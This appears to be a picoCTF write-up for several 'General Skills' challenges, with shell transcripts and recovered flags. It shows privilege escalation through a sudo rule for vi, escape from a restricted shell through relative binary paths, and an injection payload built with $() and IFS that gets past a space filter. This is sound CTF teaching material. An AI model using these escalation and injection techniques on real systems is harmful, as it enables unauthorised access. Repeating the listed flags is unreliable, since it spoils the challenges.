 # General Skills

# Chrono

---

How to automate tasks to run at intervals on linux servers?

<aside>
💡 To set up the cron daemon, we need to store the tasks in a file called `crontab` and then tell the daemon when to run the tasks

</aside>

```bash
picoplayer@challenge:/etc/systemd/system/default.target.wants$ cd /etc

picoplayer@challenge:/etc$ cat crontab  
# picoCTF{Sch3DUL7NG_T45K3_L1NUX_1d781160}
```

[](https://academy.hackthebox.com/module/18/section/2093)

# **Permissions**

---

Can you read files in the root file?

<aside>
💡 What may available to us as a sudo user?

</aside>

```bash
picoplayer@challenge:/$ sudo -h
-l, --list  list user's privileges or check a specific command; use twice for longer format
```

```bash
picoplayer@challenge:/$ sudo -ll
[sudo] password for picoplayer: 
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:

Sudoers entry:
    RunAsUsers: ALL
    Commands:
        /usr/bin/vi
```

<aside>
💡 When using vi as a sudo user, all the command pass into it will also be sudo. (Bypass the permission denial)

</aside>

<aside>
💡 Using command in vi: [esc]:! [command] [enter]

</aside>

![Untitled](genPIC/vim.png)

```bash
picoplayer@challenge:~$ sudo vi

total 16
drwx------ 1 root root   22 Sep 10 13:50 .
drwxr-xr-x 1 root root   63 Sep 10 13:47 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   35 Aug  4 21:34 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
-rw------- 1 root root  774 Sep 10 13:50 .viminfo

Press ENTER or type command to continue
picoCTF{uS1ng_v1m_3dit0r_55878b51}
```

# Special (Bypass the shell)

---

<aside>
💡 How to bypass the shell?

</aside>

## Solution 1: Observation

<aside>
💡 We can observe that ../ won’t be capitalized and word ckeck

</aside>

```bash
Special$ ../
../ 
sh: 1: ../: Permission denied
Special$ ../../
../../ 
sh: 1: ../../: Permission denied
```

<aside>
💡 We know that common used commands such as `ls` has absolute address /root/usr/bin/

</aside>

```bash
Special$ ../../usr/bin/ls
../../usr/bin/ls 
blargh
Special$ ../../usr/bin/ls ./blargh
../../usr/bin/ls ./blargh 
flag.txt
Special$ ../../usr/bin/cat ./blargh/flag.txt
../../usr/bin/cat ./blargh/flag.txt 
picoCTF{5p311ch3ck_15_7h3_w0r57_3befb794}Special$
```

## Solution 2: Interpolated command from strings (Injection)

Although we use $(), but it doesn’t allow space in it.

```bash
Special$ $(ls)
$(ls) 
sh: 1: blargh: not found
Special$ $(ls blargh)
Pals blargh) 
sh: 1: Syntax error: ")" unexpected
```

We have to bypass the space

[Bypass Linux Restrictions](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions)

<aside>
💡 Internal field separator

</aside>

```bash
Special$ $(IFS=];b=ls]blargh;$b)
$(IFS=];b=ls]blargh;$b) 
sh: 1: flag.txt: not found
Special$ $(IFS=];a=cat]blargh/flag.txt;$a)
$(IFS=];a=cat]blargh/flag.txt;$a) 
sh: 1: picoCTF{5p311ch3ck_15_7h3_w0r57_3befb794}: not found
```

# Specialer ( `ls` and `cat` alternative )

---

<aside>
💡 Alternative of ls is `echo *` , for more usage: `echo * .*` `echo * .* */*`

</aside>

<aside>
💡 Alternative of cat is `echo "$(<file.txt)"`

</aside>

[John Jarvis](https://jarv.org/posts/cat-without-cat/)